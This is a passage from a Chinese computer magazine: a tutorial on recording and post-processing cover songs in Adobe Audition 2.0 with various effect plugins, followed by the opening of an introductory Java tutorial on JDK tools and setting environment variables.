- （3）将鼠标移动到上半部分音频的顶端，鼠标会显示为“L”字样。这个时候单击鼠标左键，就选中了上面这个声道。试听一下，看这个声道是否是伴奏音乐，如果不是再把鼠标移动到下面一个声道的下端，当鼠标显示为“R”时，单击鼠标左键，选中下面声道。再来试听这个声道，这样就能分清楚哪个是原唱，哪个是伴奏的声道了，如图4。

- （4）知道哪个是原唱声道之后，选中这个声道，然后双击鼠标左键全选这个声道。按“Del”键将原唱声道的内容全部删除。之后，再双击全选伴奏声道，在全选后的声道上面右击，在弹出的菜单中选择“复制”。再将鼠标移动到刚才已经删除的原唱声道上，再次双击来全选这个声道。然后，在全选的空白声道上右键单击该声道，在弹出的菜单中选择“粘贴”。这样上下两个声道就都是伴奏音乐了。

- （5）先试听一下，确认无误，最后再将编辑好的伴奏保存。单击主菜单中的“文件”→“另存为”，在弹出的窗口中选择好文件保存的路径和格式，再单击“保存”就可以了。

> 小提示：有的VCD中伴奏音乐和原唱并不是分开保存的，以上方法对这种VCD并不适用。

### 3. 歌曲提取伴奏音乐

如果以上两种方法都不能满足你的要求，那又该怎么办呢？不要紧，用下面这种办法，只要你有歌曲，我们就能制作伴奏音乐。

- （1）用Adobe Audition 2.0提取伴奏音乐
在Adobe Audition 2.0中就有这样的功能，可以直接提取歌曲中的伴奏音。
- ①请先全选需要提取伴奏的歌曲的波形，在主菜单中选择“效果”→“幅度”→“通道混音器”，打开通道混音器窗口，如图5。
- ②在窗口上方的“预设效果”下拉菜单中，选取“Vocal Cut”选项。不用调整设置，直接按“确定”，伴奏音就提取出来了。

- （2）用DART Karaoke Studio制作伴奏
我们还可以使用一个专门制作伴奏音乐的软件DART Karaoke Studio来制作伴奏，相关各大下载站点都有下载。这里要用的，是这个软件中叫DART Karaoke Author的一个小插件。
- ①打开这个插件，在菜单中选择“Soundtrack”→“Open”，在弹出的窗口中选择你要制作伴奏的歌曲，并单击“打开”。
- ②打开歌曲后，选择菜单中的“Karaoke”→“DeVocalizer”，这时会弹出一个窗口，用来调节消除声音的程度以及相关参数。一般来说，这里使用默认设置就可以了。单击“Change”可以选择保存的路径，之后再单击“Process”按钮，就开始制作伴奏音乐了，如图6。
- ③等待一段时间之后，伴奏音乐就制作完成了。试听一下，你会发现歌手的声音完全被消除了，只剩下音乐伴奏。

> 小提示：用这种方法制作伴奏音乐，要求歌曲源本身的质量不能太差，否则效果很难保证。类似的制作伴奏的软件还有很多，这里就不做一一介绍了。

## 三、录音基本方法

有了伴奏下面就要开始录音了。看过我下面的介绍你就会知道，其实录音并不难，而且可以说是十分的容易。

### 1. 录音前期调试

录音前要进行一定的调试工作，以免在录制的时候出现偏差。首先，需要试录一段音频，以便调节电平。

-   （1）把 Adobe Audition 2.0 切换到“编辑查看”界面，单击“文件”→“新建”，在弹出的窗口中选择你所需要的音频采样率，以及声音的分辨率。对于声音质量要求不高的朋友，可以采用默认设置。单击“确定”，这样就新建了一个录音文件，如图7。
-   （2）之后的工作就是试录音了，你只要单击软件左下角的“传送器”当中的红色按钮，就开始录音了。你可以先清唱一段，观察“主群组”中波形的变化以及电平栏的变化，来判断是否需要进行音量调整。音量的判断通常以高潮处电平栏刚好达到红色区域为最佳。
    我们也可以用波形的起伏来判断音量的大小。如果波形只是一条细线，说明音量太小；如果波形占满了上下两端，则说明音量过大。起伏有序，高潮处能刚好到达波形上下两端，一般来说这样的波形代表音量刚好，如图8。
-   （3）了解音量的大小之后，就可以通过调节来达到最恰当的声音大小了。你可以先在 Adobe Audition 2.0 的菜单中选择“选项”→“测量”→“监视录音电平”。选中之后你就会发现，电平已经开始实时监控外部的声音了，这样做的目的就是为了方便你对音量的调节。
-   （4）选择主菜单中的“选项”→“Windows 录音控制台”，在弹出的窗口中选择“选项”→“属性”，把“录音”选项中“Mic”或“Microphone”前面的钩选选中，然后单击“确定”。
-   （5）在录音控制窗口里将“Mic”选项里“选择”前面的方块钩选上。之后再依靠上下调节“音量”滑块，调节“Mic”的音量。一边调节，一边查看电平，直到声音大小达到最佳效果为止，如图9。







### 2. 录制歌曲

-   （1）将 Adobe Audition 2.0 切换到“多轨查看”界面，在“轨道 1”中单击有“R”字母的浅红色按钮。选中这个按钮的轨道才能录制你的声音。
-   （2）在弹出的窗口中，选择你想要将录音保存到的位置，并给你的文件起一个名字，然后单击“保存”。
-   （3）在“轨道 2”上面右键单击鼠标，在弹出的菜单中选择“插入”→“音频”。在弹出的窗口中，选择好对应的格式，找到之前准备好的伴奏音乐，选中然后“打开”文件。
-   （4）插入了伴奏，就可以开始录音了，你只需要单击左下角“传送器”中的红色录音按钮，就可以开始录制你自己的翻唱歌曲了。翻唱录音完毕，这里要注意的是，在保存你的作品之前，需要进行一些后期效果的处理，以便使你的翻唱更加完美。这些步骤我们会在下一章里做详细的介绍，我们先来告诉你，处理完成之后如何保存你的歌曲。
-   （5）录制完成之后你会发现，点选“文件”→“保存会话”只能分开保存各文件，要如何将翻唱之后的内容保存为一个统一格式的文件呢？其实，很简单，只要将两个音轨合并就可以了，具体步骤为：在轨道 3 处或其他空白轨道上右击鼠标，选择“合并到新轨”→“所选范围的音频剪辑（立体声）”。这样伴奏和你的翻唱就合并到一个音轨上面了，如图10。
-   （6）在新合并的轨道上右击鼠标，在选项中选择“编辑源文件”，这样就把这个合并后的音轨切换到“编辑查看”模式下了。
-   （7）最后，再按照之前保存单个音频的方法，在主菜单中选择“文件”→“另存为”，在弹出的窗口中选择好文件保存的路径和格式，再单击“保存”就可以了。



## 四、追求完美——后期处理制作

前面，我们讲了如何录制翻唱歌曲。但是，用基本的操作录制出来的声音，试听一下你会发现，除了你个人唱功和录制设备简陋出现的问题之外，声音中甚至还伴有一些录制现场的杂音。要使你翻唱的声音变得优美，就需要进行音频的后期处理。

### 1. Adobe Audition 2.0 的后期处理功能

首先，我们先来介绍一下用 Adobe Audition 2.0 自带的功能就能完成的后期处理。对于一般用户来说，用这些功能已经完全能满足你的需要了。

#### （1）降噪处理

降噪处理，顾名思义就是处理掉录音中的杂音和噪音，是我们处理翻唱第一步要做的事情。降噪就需要直接对翻唱进行处理，所以我们要回到录音之后，伴奏和翻唱合并之前。

-   ①在“轨道1”的翻唱音轨上右击鼠标，选择“编辑源文件”，切换到“编辑查看”模式。然后，拖动鼠标选中翻唱音轨前面或者后面没有人声的波形部分，这些波形就是噪声了，如图11。



-   ②在主菜单中选择“效果”→“恢复”→“降噪”，在弹出的降噪窗口里单击窗口右上侧的“采集预置文件”按钮，进行噪声采样，如图12。



-   ③噪声采样之后，单击窗口右侧的“选择整个文件”按钮，对整个音轨进行降噪处理。你可以调节“降噪电平”滑块，调整降噪级别。降噪的级别太高，声音容易失真，而降噪级别太低又达不到降噪效果，这里就要根据实际情况进行调整了。你可以单击窗口右下方的“预览”按钮，一边听声音一边进行调节，以达到你满意的效果。调整满意之后，单击“确定”按钮，降噪工作就完成了。
-   ④如果你对音质的要求比较高，也可以根据情况进行多次降噪。每次“降噪电平”的级数都调整到15－25之间，进行3－4次降噪之后就能达到更好的效果。
-   ⑤如降噪之后仍然有一到两处顽固的瑕疵，我们可以手动操作进行删除。用鼠标选定这些纯噪音的波形，在上面右击鼠标，选择“静音”选项，这样就把瑕疵完全删除了。

#### （2）混响效果

接下来，我们给翻唱加上混响效果。

-   ①选择“查看”→“多轨查看”，重新切换到多轨模式。然后，单击主群组窗口左上角的“FX”按钮，进行轨道效果设置，如图13。



-   ②单击“读取”选项上面的那个横条按钮上向右的箭头，选择“延迟效果”→“工作间混响”。
-   ③这样，就打开了 Adobe Audition 2.0 自带的混响插件。看到之后弹出的这个复杂的调节界面，想必你已经犯晕了，这些选项也需要按照你音频的不同情况来调节。先按下“空格”键，就会一起播放刚才录的歌和伴奏，一边听一边摸索着进行调节。直到你觉得效果适当，或者伴奏与翻唱十分和谐就可以了，如图14。



#### （3）录音修补处理

如果，你发现自己唱的歌里有一两句有错字，或者跑调等情况。你不必从头重新唱起，只需重新录有问题的那一小段就可以了。

-   ①关掉之前翻唱所在音轨的“R”字录音按钮，否则你重新录制的时候会把之前的翻唱覆盖掉。选择一个新的没有用过的音轨，单击“R”字红色按钮，选择好文件的保存位置。
-   ②用鼠标选择出需要重新唱的部分。你要注意的是，为了能把新唱的部分和原来的声音很好的连接起来，请选择有空白的部分开始补唱，到有空白的部分结束。
-   ③之后，你只要和录音时一样按下“传送器”中的红色录音按钮就可以开始补录了。
-   ④录音完成之后，在新录的轨道上单击右键，选择“编辑源文件”，在编辑查看模式中，把新录的音频和原来翻唱音频连接处进行平滑处理，以消除连接的痕迹。这样，录音修补就完成了。
-   ⑤再切换回“多轨查看”模式，在需要修补的翻唱音轨上单击右键，再选择“编辑源文件”，在选定的范围内右击鼠标，在选项中选择“粘贴”，这样就可以覆盖之前有瑕疵的部分了。

#### （4）修整换气声处理

-   ①切换到“编辑查看”模式，用鼠标选中一段你要编辑的换气声的波形。如果换气声的波形太短，你可以使用界面下方的“缩放”窗口里面的按钮，将波形放大，如图15。


-   ②在主菜单中选择“效果”→“幅度”→“包络（处理）”。打开“包络”窗口后，在“预设”选项里选择“Curve-Pulse”，然后将上面的调节曲线中左侧的白点拖拽到左下端，将右面的白点移动到右上端。再选择“平滑曲线”，上面的曲线中间就会多出一个白点，将多出来的那个白点拉到曲线下面，如图16。



-   ③最后，再选择“确定”，这一段换气声就修整好了。如果是歌曲要进行收尾，则应该将曲线的方向左右置换。

#### （5）声音延长处理

在歌曲的一些段落和收尾的部分，经常会需要拖长声音。如果你录音时忘记拖长，或者由于换气不当无法拖长来唱，这时候你无须重新录音，做一个声音延长的处理就可以了。

-   ①用鼠标选定你要进行拖长的一段声音的波形，然后选择“效果”→“时间/音调”→“伸展”。
-   ②在弹出的“伸展”窗口右侧的“预设”选项里，选择“Fast Talker”。然后，调节左侧“恒定伸展”里的滑块，调整延长的比率。比率100以下为延长声音，100以上为加速声音。这里要注意的是，如果你将比率调的过低或过高，很可能会出现声音失真的现象，如图17。



#### （6）音准调节处理

前面，我们曾经介绍过修补录音的方法。但是，仅仅一小段声音的重新录制，反而很难达到理想的效果。有的时候，唱歌所需要的正是一气呵成的气势。所以，能够不在局部进行重录还是尽量不要重录。这里，我们就来介绍一种调节音准，从而修正走音部分的功能。

-   ①选中走音部分的波形，然后在菜单中选择“效果”→“时间/音调”→“音调弯曲”。
-   ②在弹出的“音调弯曲”窗口中，先选择“重设”按钮，将所有曲线都还原到初始状态。
-   ③在上面曲线中找出你要调节的声音所在的相应位置，在曲线上单击鼠标左键。这样，就会出现一个新的白色控制点，在需要调整的区域前后各再设置两个白点，以免影响不需要调整的地方。
-   ④上下调整中间那个白点，以此来调节声音的高低。你可以先单击“预设”按钮，一边听声音，一边调节，直到你满意为止。

> 小提示：要注意调节的幅度不宜过大，否则你就会发现，声音会扭曲得难以听清楚。另外，经过弯曲调整之后，声音会出现细微的缩短或者增长的现象，可能会影响到你的翻唱与伴奏的合拍，具体改变了多少，在“音调弯曲”窗口最下面有显示，如图18。



# 超级软件教程

-   ⑤为了使你的声音和伴奏能够合拍，还需要在你编辑的这部分波形后面最近的一段空白波形上删除或增加一段空白。例如，你的声音更改后比之前长了0.1秒，你可以在后面最近的一段空白音上单击鼠标左键，选定这个位置。然后，在主界面右下角的“选择/查看”窗口中，选择“长度”下面“选择”这一行的时时间栏，输入你要删除的时间长度，即“0:00.100”，如图19。之后单击“回车”，选中要删除的部分，再按“Del”键，就将这段空白删除了。



如果，声音弯曲之后比之前少了0.1秒，同样需要先选中后面最近的一段空白波形，在主菜单中选择“生成”→“静音区”，在弹出的窗口中输入需要增加的时间“0.1”就可以了。

#### （7）调节人声音量起伏

-   1. 在“多轨查看”模式下，选中要进行编辑的音轨。这时，你会发现音轨上有两条彩色的直线，一条绿色的线在最上面，另一条蓝色的直线，在上下两个音轨中间。这条绿色的线就是我们说的，用来调节人声起伏的工具。
-   2. 在绿色线的两端，各有一个白色的控制点。而在绿线的上面任意部位单击鼠标左键，又会出现一个新的点。上下拖拽这些控制点，就能够调节声音的起伏。控制点在最上面，声音为最大；而控制点越向下，声音就越小。我们可以多设置一些点，把每一个需要层次起伏的地方都表现出来。
-   3. 如果要取消这些设置，你只需要在这个轨道上单击右键，在弹出的菜单中选择“剪辑包络”→“音量”→“清除选择点”。
-   4. 而另一条蓝色的线，则是用来调整左右声道声音大小的。同样，也可以在这条蓝色的线上单击左键，设置控制点。当蓝色线在上下两个声道中间的时候，两个声道声音大小是相同的。将控制点拖拽到上面，则上面的声道输出的声音大，下面的声道声音小，如果将控制点拉到下面，情况则相反。体现在你的立体声耳机或者音箱上，就是一个耳机或音箱声音大，而另一个声音小。
-   5. 要取消这个操作，也需要在这个音轨上单击右键，选择“剪辑包络”→“声相”→“清除选择点”。

#### （8）图形均衡器

图形均衡器是一个调节音频整体声音曲线的工具，它真正实现了音质高低的自由变化。在主菜单中选择“效果”→“滤波器”→“图形均衡器”，就能够打开这个工具。

它可以设置最多达到30个频带的声音曲线，使声音的起伏更加明显。每一个频带都代表一个音调的范围，这些音调的单位为“Hz”。调整频带的滑块，在这个范围内的波形就会随着滑块的高低而变化。如果你想要突出某一频段内的声音，比如高潮部分的爆破音，你只要将这个频段的音调高就可以了。当然，如果你把某个频带的声音调的过高，就会出现失真或者爆音的问题。而如果你将某个频段的声音调的过低，就会出现音频中缺失这个频带范围声音的问题。

### 2. 后期处理效果插件

我们前面讲了，如何用 Adobe Audition 2.0 自带的功能进行后期处理，下面我们来说一说用于高级后期处理的一些插件工具。

#### （1）常见效果插件介绍

-   1. BBE Sonic Maximizer Plugin: 一个非常流行的，用于高音激励的插件。
-   2. Waves: 一个功能强大的插件包，具备混音和压限等许多工具。如果想完全了解这个软件，可能需要比下面大几十倍篇幅的叙述才能完成。因此，这里我们只介绍其中的几个我们所需要的功能。
-   3. Antares Tube: 电子管模拟效果器，可以使声音变得温暖的工具，具备调节人声和伴奏声两种功能。
-   4. Antares Microphone Modeler: 知名话筒模拟插件，可以模拟各种名牌话筒，没钱买名牌的朋友可以用这个软件来试试。
-   5. Ultrafunk: 著名的效果器包，包括众多常用效果器，不但品质出色，而且占用系统资源很少，使用非常广泛。

> 小提示：以上这些音乐效果插件，我们在网上很容易就能获得，一般在“Google”、“Baidu”等搜索引擎上都可以轻松搜到，所以在这里不再多作介绍。

这些插件的安装都十分的简单，这里我就不多做介绍了。建议大家最好在 Adobe Audition 2.0 的安装目录下新建一个文件夹，然后把以上所有软件都安装在这一个文件夹里，以便于插件的管理和查找。

安装了这些插件之后，我们还不能马上在 Adobe Audition 2.0 里面使用它们。第一次使用这些插件，需要先打开 Adobe Audition 2.0，在主菜单中选择“效果”→“启用 DirectX 效果”。等待系统刷新完效果列表，这些已经安装完的插件的选项就全部都出现在“效果”→“DirectX”的选项下面了。

#### （2）Antares Tube 电子管模拟效果器

一款能使声音变得温暖的插件，可以使人声和伴奏音都变得更加精细。它有两个电子管，一个是蓝色的，另一个是黄色的，可以通过控制界面上面的两个按钮进行切换。蓝色电子管可以为人声、吉他、弦乐、小号等各种声音增加电子管前置放大的温暖效果，使声音更加优美；黄色电子管则可以为音频加上模拟过载放大器那种浑厚而温和的声音失真效果。
在主菜单中选择“效果” → “DirectX” → “Antares Tube”，就可以打开这个插件，如图20。



图20 Antares Tube 电子管模拟效果器

Antares Tube 电子管模拟效果器通过用鼠标拖动下面的滑块来进行调节，调整很简单，不要超过 3.5dB 即可，失真立即拉回。左侧的旋钮控制输入电平，右面的旋钮控制输出电平。两个旋钮指示盘上的“Clip”灯如果点亮，则代表信号过载，限制器会开始工作。另外，控制器左下方的开关平时保持“OFF”就可以。在调节时，请先单击打开“预览”按钮，这样可以一边听调试效果一边调节。

#### （3）Equalizer R3 均衡处理

Equalizer R3 是 Ultrafunk 下的一个均衡效果器，我们前面讲到的“图形均衡器”和这个插件的效果大致上是相同的。均衡处理也是后期效果的关键之一。一般来说，高频要在保持不噪的前提下调整到清晰通透，低频要在保证不浑浊的前提下调整到清晰、自然。在菜单中单击“效果” → “DirectX” → “Ultrafunk fx” → “Equalizer R3”就可以打开它。

在 Equalizer R3 界面中，我们可以看到从 1 到 6，六个黄色的圈点。和曲线下面的1 到 6，六个可调节的频段是一一对应的。每个圈点对应位置下面的刻度也对应着“频点”下面的 Hz 值。频点前面的“滤波类型”，可以调节曲线的整体走向，你用一下就会明白。再有，就是“Q 值”，Q 值代表所在频点的频段宽度比例。最后面的是“增益”，它是指各圈点所在的位置相应所提升或者降低的音量分贝数。用鼠标拖动那些黄色的圈点或者调节曲线下面的滑块，都可以对均衡器的增益进行调整。

你可以根据个人经验的积累，来制定适合自己声音特点的调整方案。不过，每次还是要一边听，一边调整，这些参数都没有绝对的标准，也要根据每首歌的情况来调整。只要单击“预览”按钮就能试听效果，调整完毕再单击“确定”，你的调整就应用到文件上了。

#### （4）BBE 高音激励处理

顾名思义，高音激励的主要作用就是用来增加高音。它可以令声音高低分明，使处理后的声音更加浑厚有力。

首先，全选需要处理的波形，在菜单中选择“效果” → “DirectX” → “BBE Sonic Maximizer”，这样高音激励插件就打开了。
在 BBE 高音激励的主界面中，有三个可以调节的旋钮。左边的一个，是用来调节低频段的效果增益，中间一个是用来调节中高频段的效果，右边的那个旋钮是用来调节整体输出量的降低程度。我们可以在“工厂预置”中选择一个高音激励的方案，也可以根据你的个人实际情况自己来调节。和其它窗口一样，你也可以单击窗口右下方的“预览”按钮对调节的效果进行试听。

#### （5）Multiband R3 多段动态压缩效果处理

Multiband R3 可以对音频的各个频段进行调节，提高或降低某些频段的声音。它把波形一共分成 5 个频段，通过 5 个单独的调节器，和一个总的设置框，来对音频进行从局部到整体的全面控制。

打开菜单中的“效果” → “DirectX” → “Ultrafunk fx” → “Multiband R3”，就进入了这个效果器的主界面。

这 5 个频段具体所对应的频段范围，可以通过窗口左下侧的“低频”、“中低频”、“中高频”、“高频”这 4 个数值来进行调节。调节“频段 1” 到 “频段 5” 这五个滑块，你就会发现，每个频段所要调整的幅度，都会在右上方的曲线图中显示出来。

还是用老办法，单击左下角的“预览”按钮，一边试听一边调节这些数值，直到你满意为止。

此外，“Multiband R3” 还有一个非常实用的功能，就是处理“喷麦”的问题。

在录制人声时，遇到的最大问题，除了设备简陋导致诸多不便之外，我想应该就是烦人的“喷声”了。所谓“喷声”即：当你的歌词中有包含“b、p、f、h、c、s”等这类声母的字时，演唱者经常会将气流直接喷到麦克风上，这时录出来的声音，明显带有强烈的喷音，给后期处理带来了很大的不便和麻烦。

有了这个插件，就不用花上百元去买那些所谓的“话筒防喷罩”了。你只需要在“总设置”中单击“自”字的按钮，按钮变成黄色就说明已经开启了去除“喷声”的功能了。

#### （6）Reverb R3 混响处理

音乐爱好者们可能经常会听到这样一个词——混响。但是，混响到底是什么呢？

首先要区别的是，混响跟回音是完全不同的两码事。回音是一种声波碰触到物体后立即返回的现象，近距离的回音声音衰减得很微弱，因此强度上变化较小。混响是指声音在房间内部所有物体、人体身上反复反射而形成的逐渐衰减的声音存在现象。混响的程度与房间吸音效果有着直接联系，混响时间适当则声音充盈饱满，混响时间较长则生动活泼，混响时间稍长则音乐更显华丽。因此许多音乐厅的混响时间稍长，控制在两秒左右，而歌剧院由于突出表现人声，因此控制在 1.5 秒左右。

在我们普通人的家中，就很难达到音乐厅或者专业录音棚的混响效果了。混响时间太短，就好像在空旷草原说话一样，缺乏现场感。这个时候，就需要使用 ReverbR3混响效果器来实现这种效果。

首先，在菜单中选择“效果”→“DirectX”→“Ultrafunk fx”→“Reverb R3”，打开这个混响插件。

经常需要调整的是“早反射声”和“混响音量”两个选项，一般对于快歌来说就调小点，如果是慢歌就调大点，具体情况还要一边试听一边调整。

建议新手在不熟悉这个插件之前，使用我们下面的入门基本设置：将“高频切点”调到7左右，“分频点”调到800以上，而“高频衰点”改为9.4，“早反射声”调到14，“混响音量”开到13，其它设置基本保持不变。这个设置仅是为了满足初学者的需要，等你对这个插件有所了解之后，可以根据个人经验来配置自己的混响参数。

#### （7）Waves C4 压限处理

压限处理也是非常重要的一个环节，它可以调节声音的大小，使声音前后始终保持平衡。这一类的软件有很多种，我们要介绍的Waves C4多段动态压限器就是其中的佼佼者之一。

我们选择菜单中的“效果”→“DirectX”→“Waves”→“C4”，打开Waves C4的界面。

手动调整Waves C4的工作十分的复杂，需要进行反复的摸索和实践才能够熟练的运用，这里我们就不多做介绍了。普通用户使用“工厂预置”中的几种设置模板就足够了，一般的歌曲建议大家使用其中的“Pop vocal”模板。

#### （8）RVox 效果处理

RVox效果器的作用是，消除那些不自然的换气声，以及人声末尾的尾音，也可以减掉一些空隙处的杂音。需要注意的是，RVox效果器应该在使用混响效果之前使用，以免将混响效果制造出的圆润尾音也消除掉。

首先，我们在主菜单中选择“效果”→“DirectX”→“Waves”→“RVox”，打开RVox效果器。

窗口左侧Gate选项的值，如果设置得过高，会把一些正常的换气声也剪掉，让人有一种明显的声音突然停止的感觉，建议大家设置在-30到-40之间，另外两个选项也建议设置在-5以下。

#### （9）Compressor R3 压缩效果处理

Compressor R3压缩效果器，是一个用于处理人声高低的软件。它与压限器有些相似，但作用又不完全一样。它是一个能让听起来太硬的声音变软一些，让听起来太软的地方变硬一些的插件，使人声变得更加均匀而富有表现力。它在后期处理中所起到的作用不亚于之前的混响效果。

首先，我们在菜单中选择“效果”→“DirectX”→“Ultrafunk fx”→“Compressor R3”，打开这个压缩效果器。

然后，你可以选择“预制”中“Music”选项里的“Vocals Soft”模板，之后单击“确定”。这个模板的作用是，使声音变的更加温暖、柔和。

如果你觉得“Vocals Soft”模板的设置过于柔和了，也可以改用“预制”→“Vintage”→“dbx165”这个模板，减小柔和的程度。

当然，如果你对压缩效果处理已经相当熟悉了，也可以根据个人需要选择其它模板，或者自己进行调整设置。

如果是处理比较委婉的歌曲，也可以使用两次压缩效果处理的方法，这样压缩出来的声音会更加圆润、温和。

#### （10）后期处理的顺序

以上我们所介绍的，都是最常用的效果插件。再加上Adobe Audition2.0自带的那些功能，对于一般的翻唱来说，这些方法足以满足要求了。但是，想要完成后期处理工作并不能单纯的罗列以上这些方法，必须安排合理的顺序来使用这些功能，以免它们之间相互影响。

例如，降噪处理应该摆在所有处理的第一位去进行；而RVox效果处理必须在混响效果之前使用；使用Compressor R3压缩效果之后，也不能再进行高音激励等等……

- 下面列出一个相对比较合理的顺序，仅供大家参考：
  “降噪” → “Rvox” → “BBE Sonic Maximizer” → “Ultrafunk fx Multiband R3” → “Ultrafunk fx Reverb R3” → “Waves C4” → “Ultrafunk fx Compressor R3” → “Antares Tube” → “图形均衡器”（或者“Ultrafunk fx Equalizer R3”）。

以上只是笔者喜欢用的一个处理的顺序，其中可能也有一些相互影响的问题。你可以根据自身的情况，来安排自己的后期处理顺序。随着经验的不断积累，相信大家都能让自己的翻唱达到更好的处理效果。

#### （11）其它一些后期处理插件

- ① C1 Compressor效果器
  它集成了压缩／扩展器、噪声门／扩展器、侧链滤波器这几个效果器的功能。

- ② Enigma 迷幻效果器
  它能通过调制手法来制造比较特殊的效果。由许多早期发生器调制的2-12极梳状波器组成，并带有共振和延时。

- ③ L1-UltraMaximizer 效果器
  一个控制电平音量的工具，可以用来提升音频的总体音量。

- ④ MaxxBass
  一个用于对低音音轨进行加强的插件，能够弥补后期音频混缩中的低音缺陷。

- ⑤ MetaFlanger 效果器
  能够调节混音程度、回馈、增益、延迟、深度、比率、波形、输出等参数。Flanger效果又称镶边效果，可以用来制作一些特殊效果。

其实，类似的插件还有很多，我们可以根据个人的情况从中挑选一些需要的插件，加入到音频后期制作的序列里来。

综述：怎么样，看了上面那么多，是不是有一种想当“周董”的冲动了？呵呵，那还等什么？赶快行动吧！

# Java语言入门教程

文 / 彭文波

作为一门流行的网络编程语言，Java 已经得到了广泛的应用。其优点在于：能够对网络编程提供强大的支持、具有很强的可移植性、具有独特的运行机制等。正因为如此，Java 语言在短短的十几年时间里，得到了广大程序员和用户的青睐，在商业应用上取得了很大的突破。目前，有关Java 的招聘职位应接不暇，而且用人单位给出的待遇也十分吸引眼球！但是，对于普通用户来说，尽管都希望能学好这样一门优秀的语言，但在实践中经常会遇到各种各样的困难，这时往往会产生一筹莫展的感觉。基于此，本教程从一些实用的学习工具出发，结合大量的网络应用，通过大量形象而生动的讲解，帮助用户轻松实现Java语言入门。

## 一、Java初接触：从一个电子地图谈起

Java 在日常生活中有什么应用呢？现在，我们不去考虑如何实现编程，而是首先看看Java 到底给我们带来了什么。登录 MapBar ( http://www.mapbar.com )，可以发现这是一个功能非常丰富的电子地图网站。在这些丰富的功能背后，Java 语言起着十分重要的作用。下面，结合这个网站及电子地图来看看Java 语言的一些优点。

### 1. 丰富的网络应用和强大的编程功能

Java 最吸引人的地方在于其丰富的网络应用。体现在以下几个方面：

- （1）高效实用的网络编程
  在Java 平台中，一个很大的特色就是具有大量用于开发网络应用程序的类库。通过这些类库，应用程序可以快速地编写基于网络的各种应用程序，并能够很方便地获取网络资源。因此，Java 语言是面向网络的，这和 Sun 公司所倡导的“网络就是计算机”观点是一致的。例如，通过 http://club.mapbar.com/bbs/list.jsp?forumID=14 这个链接地址可以发现，MapBar 的论坛采用了JSP 技术，而JSP 技术采用了Java 语言作为脚本。论坛中的帖子如图 1 所示。

- （2）丰富的 Applet 功能
  Applet称为小应用程序，它是嵌入到网页上执行的Java程序，在支持Java 虚拟机的浏览器上都可以执行。通过编写Java程序，可以让Applet显示图片、动画和播放声音，还能像桌面应用程序那样用图形用户界面来和服务器端交互。基于功能强大的Java语言和良好的GUI界面，使得Applet具有广泛的应用前景。这也是人们为什么说Java是一门网络编程语言的原因之一。例如，在电子地图的查询界面，就使用了大量的 Applet 程序，如图 2 所示。

### （3）和JavaScript 的良好互动

JavaScript 是一种能让网页更加生动活泼的语言，也是目前网页设计中最容易学又最方便的语言。通过JavaScript，可以做出功能丰富的欢迎信息、漂亮的数字钟、有广告效果的跑马灯，还可以显示浏览器停留的时间。这些特殊效果大大提高了网页的互动性，提供亲切的服务，使网页吸引更多的用户。尽管两者是不同的语言，但仍然有很多相互借鉴的地方。

#### （4）平台无关性

独特的运行机制，使得大多数Java 程序拥有二进制级的可移植性。“Write once, run anywhere” 正是Java 语言的核心特点。通过使用Java，开发人员可以快速编写与平台无关的应用程序，从而降低了软件项目开发、管理和维护成本。这也是目前很多单位倾向于使用Java 的原因之一。

#### （5）简单易用和高效的开发

和其他语言相比，Java 语言不需要经过长时间的培训和学习，掌握更为容易。这是因为Java 语言的语法更简单，编写Java程序也更为容易，这也是Java语言从一开始就吸引众多程序员的原因之一。在市场竞争日趋激烈的情况下，软件的高效开发可以更加迅速地配合市场的发展。通过使用简单易用而功能强大的Java语言，可以大大缩短开发周期，使得产品优势更加明显。

#### （6）安全性高

无论是哪种语言，设计时首先必须考虑其安全性。独特的设计使得Java语言的安全性得到了极大的提高。首先，从语言方面看，Java语言摒弃了C/C++中容易造成安全漏洞的指针，并提供了自动的内存管理机制，保证了Java程序运行的可靠性。其次，从运行架构上看，由于Java语言采用了设计优良的安全模型，因此，未经授权的代码将不能进行危害用户本地资源的操作。

此外，Java是一门完全面向对象的语言，使用优秀高效的网络编程将使得基于Java的分布式开发更加简单高效。通过多线程应用程序，能够同时运行多项任务。当然，对于普通用户来说，掌握Java语言的基本技巧，不仅能够轻松应对常见的软件故障，而且可以对工作、学习产生十分积极的影响。

## 2.轻松实现Java环境配置

看到上面的Java应用，很多用户肯定在跃跃欲试了。不过，现在别着急，使用Java之前，必须要有一个方便而实用的测试环境。Java不但提供了一个特征丰富的语言和运行环境，而且还为程序员和最终用户提供了一个免费的Java软件开发工具。使用之前，首先要下载JDK开发语言包。

JDK下载地址：http://java.sun.com/j2se/1.5.0/download.jsp

#### （1）安装软件包

设置安装目录为C:\jdk1.5.0。这里包含了一些基本的Java工具，如：javac编译器、java解释器、jdb Java语言调试器、javadoc API文档管理器、javah头文件生成器、Appletviewer小应用程序浏览器、javap类文件反汇编器等。在这里，暂且把它们理解为我们的一个便携小工具包吧，因为平时应用它们的场合实在太多了。

小知识：JDK是为程序开发者提供编写、测试、执行程序的一套完备的工具体系。由下面的七个部分组成：

- ① javac编译器：将源文件转换成可执行文件，这些可执行文件就是以.class后缀的字节码文件。
- ② java解释器：执行编译成功后生成的字节码文件。在字节码下载和执行过程中，解释器负责维护它的完整性、正确性和安全性。
- ③ Applet小应用程序浏览器：Appletviewer展示Web页面中包含的Applet，通常用于Applet开发过程中的测试。
- ④ jdb调试器：可执行字节码，同时提供置断点中断执行和显示变量值等功能，是查找程序错误的有效工具。
- ⑤ javap分解器：将字节码分解还原成源文件。
- ⑥ javadoc文档生成器：自动生成指定范围内的Java软件文档，内容包括Java源文件中的类、变量、方法、接口、例外(exception)等。
- ⑦ javah头文件生成器：用以从Java的字节码上生成C语言的头文件和源文件。

### （2）设置JDK环境变量

这可是学习Java的必修课了。学会设置环境变量是学习Java过程中非常重要的一部分。不过，别担心太复杂，只需要跟着下面的步骤操作就可以了。以Windows XP为例：

- ① 右键单击“我的电脑”，在弹出的菜单中选择“属性”命令。
- ② 在弹出的“系统特性”对话框中，选择“高级”标签。
- ③ 单击“环境变量”按钮，出现“环境变量”对话框，在“系统变量”列表中选择变量“Path”，单击“编辑”按钮。
- ④ 在弹出的“编辑系统变量”对话框中的“变量值”编辑栏后面加上“;C:\jdk1.5.0\bin”，注意，前面用分号隔开。
- ⑤ 在“环境变量”对话框中，单击“新建”按钮，在弹出的对话框中加入变量名“CLASSPATH”，值为“.;C:\jdk1.5.0\lib;C:\jdk1.5.0\lib\tools.jar”，如图3所示。
- ⑥ 将上述环境测试完毕，点击“开始”菜单上的“运行”命令，在弹出窗口的文本框中输入cmd命令进入命令行模式，在这个界面中，输入set命令即可看到当前的环境变量。

